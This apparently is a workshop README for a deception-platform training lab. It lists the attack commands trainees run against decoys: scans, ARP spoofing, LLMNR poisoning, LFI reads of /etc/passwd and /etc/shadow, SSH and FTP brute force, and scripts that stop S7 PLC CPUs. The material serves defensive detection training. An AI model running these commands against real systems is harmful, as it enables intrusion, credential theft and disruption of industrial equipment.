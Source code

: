 # Welcome to the Advanced Threat Summit 2023

All you may need for the workshop is available in this repository.

## Getting the access
To begin with, please navigate to our test stand:
1. **Credentials to the AdminVM**
You may use any web browser of your choice.
```
URL: 
Username:
Password:  
```

2. **Credentials to the attacking host**
From this host you will perform your attacks. Please use SSH and following credentials:
```
Host:
Username:
Password:
```

## Terminology that will be used today
Due to the fact that today we are using Labyrinth Deception Platform as the example of the deception platfroms, it has its own therms that will be actively used today:
1. **Point** = network decoy, lure, deceptive network services.
> [!NOTE]
> Points ARE NOT separate virtual machines.
2. **Honeynet** = network segment in which Points operate. Used to specify in which VLAN you would like to run your Points.
3. **Seeder Tasks** = file decoys, breadcrumbs used to logically link real and deceptive infrastructure.
4. **Seeder Agent** = binary that spreads Seeder Tasks on real hosts.
5. **AdminVM (Management Console)**  = main module that controls the system.
6. **WorkerVM** = node on which Points are running.


## Commands transcript
In addition, we provide the transcript of all commands for your ease of use. Even if you missed any part of the presentation, feel free to use those notes to continue exploring.

> [!IMPORTANT]
> **\<any data>** indicates that you should paste in your own data that is entioned inside the triangular brackets.
>
> **[options]** indicates that this part (or parts) of the command is optional and can be omitted. Multiple options are listed using / (slash).

#### Case 1: network scan detection
```
nmap [-sS/sT/sW/sM/sU/sF/sX] ​<Point IP>
```

#### Case 2: connecting to the host using data from breadcrumbs 
1. Navigate to the Seeder Agents -> Tasks
2. Choose ssh_txt_credentials or ssh_config from the list
3. Click on three dots, and then Details
4. Use those credentials to login:
```
ssh <user>@<Point IP>
```

#### Case 3: ARP spoofing
```
sudo ettercap -i <interface> -T -M arp /<host 1>// /<host2>//
```
As an alternative you may use bettercap:
```
sudo bettercap
net.probe on
net.show
set arp.spoof.targets <Point IP>
set arp.spoof.fullduplex false
arp.spoof on
// po upływie pewnego czasu
arp.spoof off
```
References: [ettecap](https://www.ettercap-project.org/) and [bettercap](https://github.com/bettercap/bettercap) source

#### Case 4: LLMNR / NBT-NS Poisoning
For this we will be using *Responder*. It is already installed. All you need to do is to run a command:

```
cd Responder
sudo python2 Responder.py -I eth0
```
Reference: [Responder source](https://github.com/SpiderLabs/Responder)

#### Case 5: S7comm Malformed PDU
For this case there is a [script](https://github.com/ad-labyrinth/ATS2023/blob/main/scripts/S7_Malformed_PDU.py) that is available in this repo.
Simply run it: 
```
cd S7_malformed_PDU
python3 S7_malformed_PDU.py -a <Point IP>
```
Or:
```
cd S7_malformed_PDU
python3 S7_malformed_PDU.py --plc_ip_addr <Point IP>
```
#### Case 6: Local File Inclusion
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/passwd 
```

#### [Advanced] Case 7: reusing the credentials
1. Find Web Server
```
sudo nmap -sS -sC -p80,443 <Honeynet IP> -vvv
```
2. Explore found web server
Perform LFI
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/passwd 
```
or
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/shadow 
```
Search for additioanl web path:
```
dirsearch --wordlists=/home/user/wordlists/directories.txt -u https://<Point IP>/ 
```
Reference: [dirsearch](https://github.com/maurosoria/dirsearch)
3. Setup the wordlist
```
cd wordlists
nano brute.dict
```
4. Perfrom SSH bruteforce
```
hydra -L brute.dict -P passwords.dict <IP of the ssh host> ssh -t 4 
```
5. Login to the host
```
ssh <user>@<Point IP>
```
6. Reuse credentials to connect to another host
```
ssh <user>@warrior.labyrinth.tech
```

#### [Advanced] Case 8: attacking industrial networks
1. Search network for FTP server
```
sudo nmap -sS -sC -p21 -T4 <Honeynet subnet> -vvv 
```
2. Connect to the FTP
Try to connect anonymously:
```
ftp <FTP IP address>
```
Start FTP bruteforce:
```
cd wordlists
nmap --script ftp-brute -p21 <FTP IP address> --script-args userdb=users.dict,passdb=passwords.dict
```
3. Inspect found file
```
ls -la
less <file>
```
4. Perform S7comm CPU control request
```
cd S7_scripts
python2 s7300stop.py 172.16.132.4
```
In addition, you can try to start CPU start message:
```
python2 s7300cpustart.py 172.16.132.2
```
Reference: [exploits source](https://github.com/hackerhouse-opensource/exploits)

## About Labyrinth Deception Platform
Labyrinth is a team of experienced cybersecurity engineers and penetration testers, which specializes in the development of solutions for early cyber threat detection and prevention.

Deception techniques provide adversaries with an essential advantage over defenders, who cannot predict attackers’ next move. **OUR VISION** is to shift the balance of power in favor of defenders.

**OUR MISSION** is to provide all kinds of organizations with a simple and efficient tool for the earliest possible detection of attackers inside the corporate network.

More information about the platform: https://labyrinth.tech/ 
